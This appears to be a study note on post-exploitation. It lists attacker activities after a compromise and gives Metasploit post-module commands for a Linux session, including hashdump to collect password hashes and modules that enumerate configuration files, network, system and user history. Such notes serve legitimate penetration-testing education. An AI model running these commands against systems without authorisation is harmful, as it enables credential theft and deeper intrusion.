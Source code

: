 Once a system has been compromised, the attacker performs the following activities:
- **Rapid assesment** (to characterize the local environment)
- Locate / copy / modify files
- Add new accounts
- Attempts **vertical escalation**
- Attempts to attack other systems (**horizontal escalation**)
- Install **backdoors** 
- **Cleanup the mess** (remove indications of the attack)
---
- In Metasploit, once we selected the exploit:
````
sessions #to see the active sessions like shells made
````
- Now we can select the post to apply, for example:
````
use post/linux/gather/hashdump #post for knowing all the passwords of the target

show options

set SESSION 1 #the session of the previous shell

exploit #to start 
````
All passwords will be shown to us

- Now, in addition, we are going to check if the target is a virtual machine:
````
use post/linux/gather/checkvm

show options

set SESSIONS 1

exploit
````
If it's using VMware or Vbox, it will be shown to us

- Another useful post is the enum_configs, which it will obtain all the important configuration files:
````
use post/linux/gather/enum_configs

show options

set SESSIONS 1

exploit
````

- Anotherone is a post to enumerate the network configuration:
````
use post/linux/gather/enum_network

set SESSION 1

exploit
````

- Anotherone is a post to enumerate the entire file system (installed packages, services, hard disk, OS version, ...):
````
use post/linux/gather/enum_system

set SESSION 1

exploit
````

- Anotherone for the user history:
````
use post/linux/gather/enum_users_history

set SESSIONS 1

exploit
````